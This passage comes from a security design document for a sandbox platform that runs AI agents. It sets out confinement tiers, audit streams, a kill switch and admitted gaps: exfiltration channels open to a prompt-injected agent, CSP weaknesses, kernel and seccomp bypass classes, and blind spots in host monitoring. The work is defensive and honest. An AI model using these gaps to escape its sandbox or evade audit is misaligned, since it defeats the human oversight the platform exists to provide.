  is **`sessionStorage`** (gone when the tab/browser closes); ticking **"Remember
  on this device"** persists it to `localStorage` instead. Both stores are
  same-origin and readable by injected script — the checkbox trades restart
  convenience for a shorter at-rest window, not a stronger boundary.
- **SSO session (the hardened path, shipped v0.5).** Carried in an **`HttpOnly`
  cookie** page script cannot read, so an injected script cannot exfiltrate it.
  The stronger posture; the admin-token path is the local/single-operator
  convenience alternative. See `docs/OPERATIONS.md` "Multi-user: who can change
  what" for the admin/member contract this session carries.

**Mitigations that exist:** the token is never written to `localStorage` unless
you opt in; the console is served same-origin; the input uses
`type="password"`/`autoComplete="off"`; every response (API, `/healthz`, SPA)
carries `X-Frame-Options: DENY`, `X-Content-Type-Options: nosniff`,
`Referrer-Policy: no-referrer` and a `Content-Security-Policy` — quoted here in
full, because a summarised CSP is how the gaps below went uncounted
(`securityHeaders`, `internal/api/security_headers.go`):

```
default-src 'self'; frame-ancestors 'none'; base-uri 'none'; object-src 'none';
connect-src 'self' ws: wss:;
media-src 'self' https://github.com https://release-assets.githubusercontent.com;
script-src 'self' 'wasm-unsafe-eval'; style-src 'self' 'unsafe-inline';
font-src 'self' data:
```

`frame-ancestors 'none'` plus `X-Frame-Options` is why a hostile page cannot frame
the console to clickjack an approve.

**Mitigations that do NOT yet exist (honest gaps).** Six, not two — every
directive above that is looser than `'self'` is a gap this section has to price,
since the asset it is pricing is a full-admin bearer token readable by any script
in this origin:

- **No HSTS.** The default posture is plain http on loopback, where an HSTS header
  would poison every other `localhost` port.
- **`style-src 'unsafe-inline'`.** xterm injects a theme `<style>` at runtime.
- **`connect-src 'self' ws: wss:` — the broadest of the six.** A bare scheme-source
  matches ANY host with that scheme under CSP Level 3, so this does not restrict
  WebSocket destinations to the console's own origin at all: injected script in
  this origin may open a WebSocket to an attacker-controlled host, which is
  precisely the exfiltration path this section exists to model. The two `'self'`
  fetch/XHR halves are narrow; the WebSocket half is not.
- **`script-src 'wasm-unsafe-eval'`.** Permits WebAssembly compilation (the
  recording replay player's WASM VT core needs it) but not JS `eval`/`Function`, so
  scripts stay same-origin — a real narrowing, and still a relaxation.
- **`font-src data:`.** Fonts may be inlined from a data URI.
- **`media-src` two external hosts** (`github.com` and the release-asset redirect
  target) for the demo-episode player.

Treat the admin token as a plaintext full-admin credential and prefer the SSO
path — which is the actual fix here, since an `HttpOnly` cookie is not readable by
injected script whatever the CSP says.

---

## 6. Top Engineering Risks

Tracked as explicit obligations, not ignored. Each is stated in full at the
residual named beside it.

| # | Risk | Where stated |
|---|---|---|
| 1 | **The model-API exit channel is the single most realistic exfiltration path for a prompt-injected agent.** Fully containing it is impossible; we mitigate by logging, not blocking. **Marketing must not claim exfil-proof.** | residual #1 |
| 2 | **Per-run SPIRE identity at scale is unprototyped** — registration-entry churn, mint latency on the task-start hot path and kill-switch cascade timing could break the identity architecture under load. A load spike before commitment is an explicit pre-v0.5 requirement. | residual #8 |
| 3 | **The approval-gates-credential coupling (B5) is the thesis's most novel claim, with no prior art.** Its security rests on chain integrity against delegation-chain-splicing (IETF, March 2026) and on a risk classifier whose accuracy is unmeasured. Overclaiming here would repeat the industry's mistake. | residual #11 |
| 4 | **In-guest enforcement carries the documented `ld-linux`/`mmap` bypass class** — ship and market it strictly as defense-in-depth detection, never as the boundary. The real boundary is structural, enforced out-of-band. | residual #5 |
| 5 | **Domain fronting and DNS-tunnel exfil are open below the optional TLS-intercept tier.** The tier ships (off by default, opt-in per policy — §5.1a) but only for operator-listed MITM-eligible hosts, live-validated end-to-end by `TestLive_SubscriptionInject` (Docker-gated, not in default CI); most non-LLM HTTPS egress stays opaque, and per-workspace ephemeral-CA injection into arbitrary agent images is unprototyped. | residuals #2, #3 |
| 6 | **CC1 hardened-runc is the only tier on hosts where nothing else installs, yet shares the host kernel.** Tier-1-only customers get materially weaker isolation and must be told so explicitly, or the platform inherits the industry's sandbox-overclaim risk. | residual #4, §7 |
| 7 | **A compromised platform operator can defeat audit integrity and policy in v1.** Acceptable for launch only if published honestly; signed action receipts are required to raise this bar and are planned for v1.0 — the hash chain itself ships (migration `0047`). | residual #9, §4.5 |

---

## 7. Confinement Class Claims

Each Confinement Class (CC) carries a precise, honest statement of what it does
and does not stop. Policy may mandate a minimum CC; the control plane refuses to
schedule runs on substrates that cannot satisfy the policy.


```mermaid
flowchart TB
  CC1["CC1 · Fence — hardened runc [shipped]<br/>shared host kernel; requires Docker"]
  CC2["CC2 · Wall — gVisor, the default [shipped]<br/>userspace kernel intercepts the syscall ABI; + runsc"]
  CC3["CC3 · Vault — Kata microVM [experimental]<br/>hardware-virt boundary; + /dev/kvm and a Kata runtime"]
  policy{{"Policy floor — fail-closed: refuse to schedule<br/>if the substrate cannot satisfy the minimum class"}}
  CC1 -->|"stronger"| CC2 -->|"stronger"| CC3
  policy -.-> CC1
```

The ladder runs Fence → Wall → Vault (CC1 → CC2 → CC3), each tier adding a
stronger isolation boundary and a hardware/runtime requirement; policy sets a
floor and the control plane refuses to schedule below it.

### CC1 — Hardened runc (shared kernel) 🟢 [shipped]

**What it does:**
- On the shipped Docker path: cap-drop ALL, no-new-privileges, tmpfs `/tmp`
  **[shipped]**; RuntimeDefault seccomp (never `unconfined`) + host-gated AppArmor
  (`apparmor=docker-default`) pinning **[shipped]**. userns (`hostUsers:false`),
  PSS-restricted, and no-hostPath are the Kubernetes path 🟡 **[planned]**.
- Raises the bar for container-escape via known runc/containerd CVE classes.
- L0/L1/L2/L3 egress controls (tier-independent) carry the real network defense;
  isolation here is the thinnest layer.

**What it does not stop:**
- A kernel 0-day provides host root. The shared kernel is the fundamental weakness
  of this tier; CC1 as the sole boundary is explicitly insufficient for
  LLM-generated code.
- Any 0-day in runc or containerd that reaches the host kernel.
- **io_uring host assumption:** CC1 ships no custom seccomp profile (it relies on
  Docker's `RuntimeDefault`), so it blocks the `io_uring` syscall family (an attack
  surface that bypasses many seccomp/kprobe controls) only on hosts running Docker
  ≥ 25.0, whose default profile denies `io_uring_setup`/`_enter`/`_register`. On
  older daemons io_uring is exposed under `RuntimeDefault`; a regression test
  (`TestDockerDefaultSeccompProfile_BlocksIoUring`) locks in the vendored default's
  denial, but nothing probes the live daemon version.

**Recommended use:** development environments where the host is already a
dedicated machine and the threat model does not include adversarial agent
workloads. Must be explicitly selected; CC2 is the default.

**Deployment note — rootless Docker / Podman (supported, and its ceiling).** A
**rootless** daemon (socket under `/run/user/<uid>`, no root) is supported at
**CC1 only**. The full CC1 posture is rootless-compatible — cap-drop ALL,
no-new-privileges, `RuntimeDefault` seccomp (never `unconfined`), host-gated
AppArmor, retained SELinux labeling (`internal/runner/docker/hardening.go`) — and
**all tier-independent controls hold unchanged**: the per-run gatewayless
(`Internal:true`) network, the wardyn-proxy sidecar as sole egress path, brokered
**never-resident** credentials (the §5.1a exceptions aside), and the three audit
streams.

**CC2/CC3 are NOT available rootless — and the refusal is ADVISORY, not
scheduled.** Current gVisor only starts under rootless Docker with
`--TESTONLY-unsafe-nonroot`, which disables the host isolation Wall exists to
provide, and Kata needs device passthrough rootless can't grant. The component
that knows this is the INSTALLER/ADVISOR: `wardyn setup wall|vault`
(`cmd/wardyn/setup.go`) detects rootlessness from `docker info`'s
`SecurityOptions` and a `/run/user` `DOCKER_HOST`, and prints an unsupported plan
for both tiers. **The scheduler does not.** `classToRuntime` consults only the
daemon's registered runtimes — it has no rootless awareness at all — so a rootless
daemon that REGISTERS `runsc` still advertises and schedules CC2, and the run is
gated and audited as Wall. Registration is not delivery: what fails closed there
is an ABSENT runtime, never a present-but-unusable one. A version-and-rootless
probe in the runtime-selection path is the closing fix — tracked, not built. Pin
**one** rootless UID model
(host-mode socket, an explicit `user: UID:GID` matching the rootless daemon's
socket owner, or userns-remap); the driver is UID-agnostic (`client.FromEnv`, no
hardcoded socket).

**Rootless Podman** speaks the Docker Engine API via the same client but is a
*separate* proof (the Docker-compat REST API is a partial emulation). **Probed on
rootless Podman 4.9.3** (`scripts/test-podman.sh`, cgroup v2): the runner-critical
primitives hold — `--internal` bridge networks **do** block off-host egress (the L0
no-default-route guarantee), the `Runtimes` map is populated,
`host.docker.internal:host-gateway` resolves, `overlay` is recognized, and
CPU/memory/pids caps **actually enforce**. **Divergence handled:** Podman's compat
`docker info` under-reports `CpuCfsQuota` as `false` even though the quota binds,
so Wardyn's resource-cap gate is **post-create and authoritative** — it fails a run
closed only when ContainerCreate's response reports it DISCARDED a requested limit
(`verifyCapsEnforced`), which Moby emits on a genuinely-uncapped host and Podman
never emits for caps it applied. The refusal lands BEFORE `ContainerStart`, so
"refuses to launch" means never launched rather than launched-and-reaped. Podman
runs are **not** false-positived; the `docker info` booleans are an advisory
`doctor` hint only. **One override:** `WARDYN_ALLOW_UNENFORCEABLE_CAPS=1` (§5,
"Operator overrides that boot past a fail-closed gate") downgrades that refusal to
a `slog.Warn` and starts the sandbox anyway, so on a host that sets it an
untrusted workload may run without its CPU/memory/pids ceiling. Note also what the
gate does NOT cover: a **disk** cap is never fail-closed on Docker — when the
storage driver cannot take a per-container size quota, `applyDiskQuota` warns and
the run proceeds uncapped by design. Re-run the probe (and
`make test-e2e`) on your own Podman version — this box's WSL2 Podman is not a CI
fleet.

---

### CC2 — gVisor systrap (default) 🟢 [shipped]

**What it does:**
- Interposes a userspace kernel (gVisor sentry) between the agent and the host
  kernel. Syscall-surface attacks are substantially raised: the sentry intercepts
  and reimplements the Linux syscall ABI in userspace.
- Defeats the container-escape CVE class that depends on reaching the host kernel
  directly from the container namespace.
- Runs anywhere Docker runs; no `/dev/kvm` required.
- In-sandbox `iptables` is partial; egress is therefore enforced outside the
  sandbox at L0/L1 (an architectural requirement, not a limitation).

**What it does not stop:**
- A 0-day in the gVisor sentry itself (a smaller, more auditable surface than the
  full Linux kernel, but not zero).
- gVisor compatibility gaps where the sentry falls back to passthrough behavior;
  workloads that trigger these gaps reduce to CC1.
- In-sandbox resource limits are at host cgroup granularity only; no in-sandbox
  seccomp or AppArmor (gVisor's sentry handles syscalls before they reach host
  LSMs).

**Recommended use:** default for all agent workloads; required for any
multi-tenant deployment.

---

### CC3 — Kata microVM 🟡 [experimental]

**What it does:**
- Interposes a KVM-backed hardware virtualization boundary (QEMU by default; Cloud
  Hypervisor / `kata-clh` selectable via `WARDYN_CONFINEMENT_MAP`) between the
  agent and the host kernel. A kernel 0-day inside the Kata guest does not reach
  the host kernel.
- Strongest isolation for adversarial workloads; required for cloud STS federation
  and hostile multi-tenant deployments alongside the SPIRE identity provider.
- **Three ways a runtime becomes CC3, and they do not share a floor.** The tier is
  defined by the GUARANTEE — a real per-sandbox VM boundary — not by one product,
  so `classToRuntime` walks `cc3Runtimes` and takes the first family registered
  with the daemon, matching by NAME PREFIX:
    1. **`kata*`** — a registered Kata runtime plus `/dev/kvm` on the host.
       Install-floored at v3.31.0, but only by the installer (see below).
    2. **`krun*`** — crun built with libkrun: a KVM microVM delivered as a plain
       OCI runtime binary, invoked through containerd's standard runc shim. **No
       version pin and no install floor of any kind** — `wardyn setup vault` floors
       Kata only. It also differs materially at launch: because the VMM is the
       container's own process, a krun container is handed `/dev/kvm` as a device
       plus that device's owning group as a supplementary group, which a Kata
       container deliberately never receives.
    3. **An operator-pinned runtime** via `WARDYN_CONFINEMENT_MAP` and
       `resolveRuntime` — the bring-your-own-microVM seam. A pin may name ANY
       registered runtime outside the known-non-vault list (firecracker,
       cloud-hypervisor, a custom shim), so the `cc3Runtimes` allowlist does not
       bound this path at all. What it still refuses is a pin Wardyn positively
       knows delivers less than a VM — shared-kernel runc/crun/sysbox, or
       gVisor/`runsc`, which is the CC2 tier — because that would be a silent
       downgrade rather than a choice.
- Install floor at Kata **v3.31.0** (`wardyn setup vault`) **[shipped]**: refuses
  (fail closed) to install an older release — whether resolved from GitHub's
  `latest` or an explicit `WARDYN_KATA_VERSION` override — closing
  CVE-2026-44210/-47243 (a permissive virtio-fs config lets a compromised Kata
  guest reach host-root via virtiofsd).
- No pass-through for the dangerous
  `io.katacontainers.config.hypervisor.virtio_fs_extra_args` / `kernel_params`
  override annotations **[shipped]**: audited clean (no field on a run, policy or
  composer proposal is annotation-shaped) and denylisted defense-in-depth at the one
  chokepoint that builds a launched container's `HostConfig` (`hardenedHostConfig`),
  so neither knob can reach a Kata guest via any untrusted input.

**What it does not stop:**
- A hypervisor 0-day / VM-escape (rare; the hardware-virt boundary is historically
  the most stable boundary in the stack, but not absolute).
- The Kata v3.31.0 install floor above is enforced install-time only, by
  `wardyn setup vault`'s installer, and it floors **Kata only** — neither `krun*`
  nor an operator-pinned runtime has a version floor anywhere. Once a runtime is
  registered with the Docker daemon, `pickRuntime` grants CC3 to it on NAME alone
  (exact match, else prefix) — there is no running-daemon version probe, so a
  `kata*` runtime that reached the host by any OTHER path (a pre-existing install,
  a manual downgrade, a golden image built before v3.31.0) is granted CC3 with the
  CVE-2026-44210/-47243 gap still open. The floor is a property of how Vault was
  installed, not of the tier itself; a version probe in the runtime-selection path
  is the closing fix — tracked, not built. For paths 2 and 3 above the tier rests
  entirely on the operator's own vouching that the named runtime boots a VM.
- Host eBPF is blind to in-guest syscalls. Wardyn's eBPF/Tetragon ground-truth
  audit stream **[shipped]** is a HOST sensor; for CC3/Kata workloads it cannot see
  inside the guest and `wardyn-tetragon-ingest` emits a one-time
  `kernel.sensor.blind` event (`data.reason="cc3-kata-host-ebpf-blind"`) so the gap
  is VISIBLE rather than a silent absence. The mitigation — an in-guest sensor for
  CC3, or orchestration-layer audit fallback — remains a published gap.

**Recommended use:** adversarial workloads, cloud STS federation, multi-tenant
production deployments. Requires a registered KVM microVM runtime — `kata*` (plus
`/dev/kvm` on the host), `krun*`, or one an operator pinned explicitly.

---

## 8. Cross-Tier Controls (Always Active, Tier-Independent)

| Control | Layer | What it closes |
|---|---|---|
| No resident secrets | ID + L2 proxy-side injection + SecretRegistry late-binding + output masking on the brokered-upload/audit/proxy-log paths 🟢 **[shipped]** (the optional `-out-dir` recording fallback is unmasked and the registry is process-local and fails open — both in §4.1 — and there is a named, bounded set of resident-secret exceptions: §5.1a is the complete list) | AT-1.1: agent reading secrets from sandbox env/disk |
| Env-var proxy bypass defended | L0 🟢 **[shipped]** (gatewayless network; proxy env is compat-only, no route to bypass to) | Env-var proxy-bypass class |
| Egress enforced outside the sandbox | L0/L1 🟢 **[shipped]** | Mandatory because gVisor's in-sandbox iptables is partial; correct on all tiers |
| Two enforcement planes (network B2 + tool B3) | L2 🟢 **[shipped]** + L3 🟡 **[planned]** | The MCP-blind-firewall class — only the L2 half is active today; L3 does not exist yet, so this row is NOT "always active" for tool-call egress until L3 ships |
| Approval mints credential | B5 coupling, ID + AU 🟢 **[shipped]** | Scope-widening between approval and issuance |
| Kill-switch cascade (fires on EVERY run stop — kill, completion, failure, idle; BOTH paths win the state CAS FIRST (C002) before touching the runner or revoking anything, then teardown+revoke in opposite internal order — explicit-kill tears down before revoking, a non-kill stop revokes before tearing down — same steps, all fail-loud) | Sandbox teardown + run-token deny-list (embedded identity revocation) + broker credential revoke 🟢 **[shipped]**; SPIRE entry deletion 🟡 **[planned]**. NOTE: GitHub installation tokens are TTL-bound (no per-token revoke API) — see residual #7. | Token hoarding past run end |
| Attribution that distinguishes agent from human | ID, AU 🟢 **[shipped]** | Insider hiding behind agent identity |
| Tamper-evident, free SIEM export | AU 🟢 **[shipped]**: Postgres log + PTY replay, eBPF/Tetragon ground-truth stream (detection-only; honestly degradable via `/healthz`; CC3/Kata host-blind gap surfaced as `kernel.sensor.blind`) | In-sandbox log tampering; audit vendor lock-in |
| Fail-closed fleet policy | Audited policy changes (`policy.create/update/delete`) 🟢 **[shipped]**; narrow-only managed settings (`disableBypassPermissionsMode`) 🟡 **[planned]** | Policy disablement before malicious action |

### The three audit streams, mechanically


```mermaid
flowchart LR
  subgraph sb["Sandbox (untrusted — the agent authors NO audit)"]
    rec["wardyn-rec<br/>PTY recorder"]
    proxy["wardyn-proxy"]
  end
  host["Host Tetragon sensor"] --> ingest["wardyn-tetragon-ingest<br/>correlate by wardyn.run-id label<br/>POST /api/v1/internal/groundtruth"]
  cp["Control plane<br/>(runs / approvals / broker)"] --> api["wardynd audit ingest"]
  proxy --> api
  rec --> api
  ingest -->|"kernel.* events"| api
  api --> s1[("1 · audit_events<br/>Postgres append-only<br/>UPDATE/DELETE trigger raises")]
  api --> s2[("2 · PTY session replay")]
  api --> s3[("3 · eBPF/Tetragon ground truth<br/>detection, not prevention<br/>CC3/Kata: host eBPF blind -> kernel.sensor.blind")]
  s1 --> siem[("SIEM export — free<br/>JSON webhook / syslog / file")]
  s2 --> siem
  s3 --> siem
```

Control-plane events, masked PTY casts and host-kernel ground truth all land
append-only in Postgres keyed on `run_id` and fan out to SIEM for free — with the
CC3 host-eBPF blind spot surfaced explicitly rather than hidden.

### The kill-switch cascade, mechanically

The **explicit kill** path (`handleKillRun`) runs this fixed order:

1. **Durable state transition** — compare-and-swap to KILLED from the state just
   read. This runs FIRST (C002): a kill that loses the race to a concurrent forward
   transition (e.g. a dispatch PENDING→STARTING) 409s WITHOUT touching the runner or
   revoking anything, so it can never strip a still-live run's credentials. Only the
   transition that actually WINS KILLED proceeds. An already-KILLED run is the one
   exception to the terminal guard: re-kill CASes KILLED→KILLED (a value no-op) and
   re-runs the idempotent steps below, so a first kill whose teardown/revoke
   partially failed can be retried to actually free the sandbox/credentials.
2. **Sandbox teardown** — runner `KillSandbox`.
3. **Run-token deny-list** — embedded identity revocation.
4. **Broker credential revoke** — every minted credential for the run.

Any of steps 2-4 failing is audited loudly (one `run.kill` event carrying the
aggregate outcome, plus a distinct `run.revoke` failure event) instead of reporting
containment — NOT fully contained, retry the kill. SPIRE entry deletion arrives
with SPIRE 🟡 **[planned]**; GitHub installation tokens are TTL-bound (no per-token
revoke API) — residual #7.

Non-kill stops (completion, failure, idle auto-stop) also win the durable-state
compare-and-swap *first* — same C002 invariant, a lost CAS never revokes a
still-live run — but the caller wins it BEFORE calling the shared
`finalizeRunTail`, whose internal order is audit → revoke → teardown (the REVERSE
of explicit kill's teardown-before-revoke), and which audits
`run.complete`/`run.reconcile` rather than `run.kill`. A non-kill stop has no
re-kill-style retry lane: a failed teardown/revoke step there is not
automatically retried today: there is no ticker and no per-run retry lane.
Remediation is OPERATOR-INVOKED — `POST /api/v1/admin/sandboxes/sweep`
(`handleSweepSandboxes`, super-admin only, audited `sandbox.sweep_requested` with
the swept count) drives `SweepTerminalSandboxes` across the deployment, tearing
down the sandbox of any run that has ALREADY ended and whose container outlived
it; a RUNNING run is skipped outright, so this is orphan cleanup and never
termination. It stays SUPER rather than `securityOps` because it drives the runner
across the whole fleet from one call, and the host is one axis the security tier
is defined never to reach. The orphan case where the run ROW is gone is separately
covered at boot by `sweepOrphanedSandboxes` (`internal/api/reconcile.go`).

**Verification note (2026-07-06):** re-checked against the shipped Docker driver
that the "egress enforced outside the sandbox" / "env-var proxy bypass defended"
rows are not an iptables `REDIRECT`/TPROXY NAT rule — which would crash-loop under
gVisor's netstack (no `nat` table). They are not:
`grep -rn "REDIRECT\|TPROXY\|iptables"` across the Go tree returns no hits.
Citations name SYMBOLS, not line ranges — an earlier pass pinned line numbers and
six of nine had rotted onto unrelated code (one past EOF) once the files split.
The mechanism is structural and tier-independent: (1) the per-run Docker network
is created with `Internal: true` (no gateway), so the agent container has no
default route regardless of confinement class — the `NetworkCreate` in
`CreateSandbox` (`internal/runner/docker/driver.go`); (2) the agent joins ONLY that
network — `CreateSandbox` step (3) attaches it at create time via `NetworkMode` +
`NetworkingConfig`, never the host bridge, and `HTTP_PROXY`/`HTTPS_PROXY`
(`buildBaseSandboxEnv`, `internal/api/runs_dispatch_mounts.go`) are a convenience
for proxy-aware clients, not the enforcement boundary; (3) under gVisor
(CC2/`runsc`) Docker's embedded DNS resolver (127.0.0.11) is unreachable from the
sandbox's netstack, so the `wardyn-proxy` alias is pinned via a static
`ExtraHosts` entry — `agentHost.ExtraHosts` gets `wardyn-proxy:<proxy IP>` and
nothing else — a hosts-file entry, not a NAT rule.

No fix was needed (there is no REDIRECT path to fix). Regression guard added:
`TestCreateSandbox_TopologyPreservesL0UnderGVisor`
(`internal/runner/docker/driver_test.go`) exercises `CreateSandbox` under CC2 and
asserts the `Internal=true` network and the static `wardyn-proxy` hosts entry both
hold — the CC1 topology test (`TestCreateSandbox_TopologyPreservesL0`) never ran
CC2, so this was the one gap in that guard.
